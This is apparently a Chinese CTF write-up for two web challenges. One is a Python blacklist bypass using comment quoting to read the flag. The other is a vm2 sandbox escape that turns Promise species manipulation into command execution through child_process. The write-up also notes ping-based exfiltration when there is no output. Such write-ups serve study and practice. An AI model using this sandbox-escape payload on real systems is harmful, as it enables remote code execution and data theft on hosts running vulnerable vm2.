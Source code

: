 # WEB

## intractable problem

利用注释绕过黑名单，直接读 flag

```plain
'''
flag=""
with open(__file__,"r") as f:
    flag=f.read()
print(flag[-79:-57],end="")
a='''
```

## escape-web

vm2 沙箱逃逸，从 github 找到 payload，改一下

[Sandbox Escape in vm2@3.9.19 via `Promise[@@species\]` (github.com)](https://gist.github.com/leesh3288/f693061e6523c97274ad5298eb2c74e9)

```plain
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}
p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { return err.constructor.constructor('return process')().mainModule.require('child_process').execSync('touch pwned'); }
            )
        }
    }
};
p.then()
```

无回显，考虑外带，bash+curl 不行，利用 ping 外带
